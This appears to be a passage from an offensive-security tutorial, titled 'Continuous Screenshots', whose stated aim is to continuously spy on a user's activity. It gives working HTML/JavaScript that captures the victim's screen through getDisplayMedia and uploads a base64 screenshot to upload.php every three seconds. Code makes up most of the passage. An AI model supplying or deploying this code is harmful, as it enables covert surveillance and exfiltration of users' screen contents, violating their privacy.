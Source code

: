 # Continuous Screenshots

While a single screenshot is OK, we want to continuously spy on the user's activity. To achieve this, we can enhance the `captureScreenshot` function by removing `stream.getTracks().forEach((track) => track.stop())`, which stops the media stream. After that, we can set up an interval timer to repeatedly create a canvas from the video stream and send it to `upload.php` every few seconds (in the example below, every 3 seconds).

```html
<html>
<body>
    <script>
        async function captureScreenshot() {
            const stream = await navigator.mediaDevices.getDisplayMedia({
                video: {
                    cursor: "always"
                },
                audio: false
            });

            const video = document.createElement("video");
            video.srcObject = stream;
            await new Promise((resolve) => (video.onloadedmetadata = resolve));
            video.width = video.videoWidth;
            video.height = video.videoHeight;
            video.play();

            setInterval(async () => {
                const canvas = document.createElement("canvas");
                canvas.width = video.videoWidth;
                canvas.height = video.videoHeight;
                const context = canvas.getContext("2d");
                context.drawImage(video, 0, 0, canvas.width, canvas.height);

                const timestamp = Date.now();
                const filename = `screenshot-${timestamp}.png`;
                const imageBase64 = canvas.toDataURL("image/png");

                await fetch("upload.php", {
                    method: "POST",
                    headers: {
                        "Content-Type": "application/json"
                    },
                    body: JSON.stringify({
                        image: imageBase64,
                        filename: filename
                    })
                });
            }, 3000); // Every 3000ms (3 seconds)
        }

        captureScreenshot();
    </script>
</body>
</html>
```
